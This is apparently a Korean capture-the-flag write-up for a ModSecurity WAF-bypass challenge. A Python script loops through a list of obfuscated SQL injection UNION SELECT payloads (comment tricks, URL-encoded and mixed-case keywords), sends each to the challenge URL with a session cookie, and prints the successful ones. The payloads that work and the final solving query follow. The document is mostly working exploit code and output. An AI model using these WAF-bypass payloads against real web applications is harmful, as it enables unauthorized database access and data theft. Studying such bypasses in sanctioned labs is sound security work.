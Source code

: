 ```python
#Union select Waf bypass list
import requests

bypass_list = '''/*!50000%55nIoN*/ /*!50000%53eLeCt*/
%55nion(%53elect 1,2,3)-- -
+union+distinct+select+
+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
... 중략
...
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f**%2funion%2f**%2fselect%2f**%2f
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
/*!UnIoN*/SeLecT+'''
bypass_list = bypass_list.split("\n")

url = "https://modsec.rubiya.kr/chall/cyclops_9d6a565d1cb6c38a06a6b0815344e29e.php"
params = {'id': None}
cookies = {'PHPSESSID' : '595dl7ejl1io50mt9bhg0dbmpk'}

for bypass in bypass_list:
    payload1="?id='<@=1%20{}%20'first','second'%23".format(bypass)
    response = requests.get(url+payload1,cookies=cookies)
    if("CYCLOPS Clear" in response.text):
        print(payload1)    
```

<실행결과> : 성공한 쿼리 들
```
?id='<@=1%20%2f**%2funion%2f**%2fselect%20'first','second'%23
?id='<@=1%20/*--*/union/*--*/select/*--*/%20'first','second'%23
?id='<@=1%20/**/union/**/select/**/%20'first','second'%23
?id='<@=1%20/**/uNIon/**/sEleCt/**/%20'first','second'%23
?id='<@=1%20%55nion/**/%53elect%20'first','second'%23
?id='<@=1%20/*union*/union/*select*/select+%20'first','second'%23
?id='<@=1%20/%2A%2A/union/%2A%2A/select/%2A%2A/%20'first','second'%23
?id='<@=1%20%2f**%2funion%2f**%2fselect%2f**%2f%20'first','second'%23
```


여러개의 답중 하나를 고르자면 다음과 같이 입력하면 문제가 풀립니다.

```
?id='<@=1 /**/union/**/select/**/ 'first','second'%23
```

![image](https://user-images.githubusercontent.com/33647663/160249860-383d4495-2166-47f9-bbd5-619aa0a5a6db.png)

